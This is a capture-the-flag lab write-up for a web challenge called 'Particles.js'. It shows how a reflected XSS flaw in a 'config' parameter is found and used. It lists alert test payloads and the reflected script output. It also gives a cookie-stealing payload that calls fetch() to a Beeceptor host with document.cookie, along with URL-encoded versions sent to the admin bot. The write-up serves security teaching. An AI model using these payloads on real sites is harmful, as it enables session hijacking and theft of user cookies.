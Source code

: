 ```yaml
---
title: Simple Web - 0x08(Lab - `Particles.js`)
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web - 0x08(Lab - `Particles.js`)
<!-- more -->
###### tags: `CTF` `Web` `eductf`
Challenge: https://particles.ctf.zoolab.org

## Description
The website can change the theme of layout. The main goal is to leak admin's cookie.

## Source Code

### Analysis

## Exploit - XSS
1. Use burp suit to check if the website has XSS vulnerability.
![](https://i.imgur.com/eu4Qqrs.png)
2. Try to modify `config` parameter
Payload 1: `1;alert(123);console.log({x://\`
    :::spoiler Response 1
    ```javascript!
    ...
    <script>
        url.value = location; config.value = '1;
        alert(123);
        console.log({x://\'; fetch('/1;alert(123);console.log({x://\.json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    or
    Payload 2: `</script><script>alert(123);</script>`
    :::spoiler Response 2
    ```javascript!
    ...
    <script>
    url.value = location; config.value = '
    </script>
    <script>
        alert(123);
    </script>
    '; fetch('/</script>
    <script>
        alert(123);
    </script>
    .json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    or 
    Payload 3: `</script><script>alert(123);</script><script>console.log({x://`
    :::spoiler Response 3
    ```javascript!
    ...
    <script>
    url.value = location; config.value = '
    </script>
    <script>
        alert(123);
    </script>
    <script>
        console.log({x://'; fetch('/
    </script>
    <script>   
        alert(123);
    </script>
    <script>
        console.log({x://.json').then(r => r.json()).then(json => {
            particlesJS("particles-js", json)
        })
    </script>
    ...
    ```
    :::
    ![](https://i.imgur.com/yDcnYv8.png)
3. `fetch` + [`Beeceptor`](https://beeceptor.com/)
Payload: 
    ```javascript!
    </script><script>fetch(%22https://sbk6401.free.beeceptor.com?%22%2bdocument.cookie);</script>
    ```
    **<font color="FF0000">Note that:</font>** MUST TRANSFER `+` AND `"` TO `%2B` AND `%22` RESPECTIVELY
    URL: 
    ```!
    https://particles.ctf.zoolab.org/?config=%3C/script%3E%3Cscript%3Efetch(%22https://sbkkk.free.beeceptor.com?%22%2bdocument.cookie);%3C/script%3E
    ```
    ![](https://i.imgur.com/VIPx7bb.png)

4. Report to author
Must encoded by [`URL encode`](https://www.urlencoder.org/)
Payload:
    ```!
    https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbkkk.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E
    ```
    ![](https://i.imgur.com/HMhXfGN.png)
    ![](https://i.imgur.com/1qNlp1t.png)

* Other payload:
    :::spoiler payload
    Payload 2
    ```!
    url=https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbk6401.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E%3Cscript%3Econsole.log%28%7Bx%3A%2F%2F
    ```
    Payload 3
    ```!
    url=https%3A%2F%2Fparticles.ctf.zoolab.org%2F%3Fconfig%3D%3C%2Fscript%3E%3Cscript%3Efetch%28%2522https%3A%2F%2Fsbk6401.free.beeceptor.com%3F%2522%252bdocument.cookie%29%3B%3C%2Fscript%3E
    ```
    :::